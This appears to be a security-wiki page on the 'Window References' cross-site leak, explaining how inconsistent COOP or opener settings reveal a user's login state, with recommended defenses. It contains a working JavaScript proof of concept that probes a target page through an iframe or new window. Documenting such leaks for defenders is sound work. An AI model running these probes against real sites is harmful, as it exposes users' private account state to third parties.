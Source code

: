 +++
title = "Window References"
description = ""
date = "2020-10-08"
category = [
    "Attack",
]
abuse = [
    "Window References",
]
defenses = [
    "Fetch Metadata",
    "SameSite Cookies",
    "COOP"
]
menu = "main"
weight = 2
+++


If a page sets its opener property to `null` or is using [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) protection depending on users' state, it becomes possible to infer cross-site information about that state. For example, attackers can detect whether a user is logged in by opening an endpoint in an iframe (or a new window) which only authenticated users have access to, simply checking its window reference. 

## Code Snippet
The below snippet demonstrates how to detect whether `opener` property was set to `null`, or whether the [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) header is present with the value other than `unsafe-none`. This can be done with both iframes and new windows.

```javascript
// define the vulnerable URL
const v_url = 'https://example.org/profile';

const exploit = (url, new_window) => {
  let win;
  if(new_window){
    // open the url in a new tab to see if win.opener was affected by COOP
    // or set to null
    win = open(url);
  }else{
    // create an iframe to detect whether the opener is defined
    // won't work for COOP detection, or if a page has implemented framing protections
    document.body.insertAdjacentHTML('beforeend', '<iframe name="xsleaks">'); 
    // redirect the iframe to the vulnerable URL
    win = open(url, "xsleaks");
  }
  
  // wait 2 seconds to let the page load
  setTimeout(() => {
    // check the opener property of the newly opened window
    if(!win.opener) console.log("win.opener is null");
    else console.log("win.opener is defined");
  }, 2000);
}
exploit(v_url);
exploit(v_url, 1);

```

## Defense

The mitigation of this XS-Leak is to be consistent across diferent pages; set it to the same value in all pages using COOP. Using JavaScript to set `opener` to `null` may have edge cases because it's possible to disable JavaScript entirely using iframe's sandbox attribute.
